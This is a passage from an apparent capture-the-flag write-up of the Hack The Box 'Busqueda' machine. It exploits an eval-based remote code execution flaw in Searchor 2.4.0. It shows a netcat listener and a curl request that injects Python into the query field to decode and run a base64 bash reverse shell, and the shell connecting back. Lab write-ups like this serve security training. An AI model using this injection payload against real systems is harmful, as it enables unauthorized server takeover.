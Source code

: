 #### Known vulnerabilities

Before trying to mess with the form we have, let's check the [GitHub page of
Searchor](https://github.com/ArjunSharda/Searchor).

We know it's using version `2.4.0`. If we check the
[releases](https://github.com/ArjunSharda/Searchor/releases) notes for each
version, we see that the version `2.4.2` 'Patched a priority vulnerability in
the Searchor CLI', and links to
[this pull request](https://github.com/ArjunSharda/Searchor/pull/130).

If we read it, we see that it actually fixes a RCE vulnerability!

## Foothold (RCE)

Searchor versions prior to `2.4.2` are affected by a RCE. The vulnerability
stems from the `eval` function call used on user-supplied inputs in the search
functionality, the core of the library. Therefore, an attacker can enter
specific inputs to execute commands on the server.

### Preparation

The goal is to obtain a reverse shell.

First, I'll setup a listener to receive the shell.

```sh
❯ rlwrap nc -lvnp "9001"
```

Then, I'll choose the Base64 encoded version of the 'Bash -i' payload from
[RevShells](https://www.revshells.com/) configured to obtain a `/bin/bash`
shell.

I'll save it as the `BASE64_REVSHELL_PAYLOAD` shell variable.

### Exploitation

Let's send a request to Busqueda to execute our payload.

```sh
❯ curl -s -o "/dev/null" "http://searcher.htb/search" -X "POST" --data-urlencode "engine=Accuweather" --data-urlencode "query=',__import__('os').system('/bin/echo $BASE64_REVSHELL_PAYLOAD | /usr/bin/base64 -d | /bin/bash -i'))#"
```

If we check our listener:

```
connect to [10.10.14.10] from (UNKNOWN) [10.10.11.208] 42738
<SNIP>
svc@busqueda:/var/www/app$
```

It caught the reverse shell!

### Stabilizing the shell
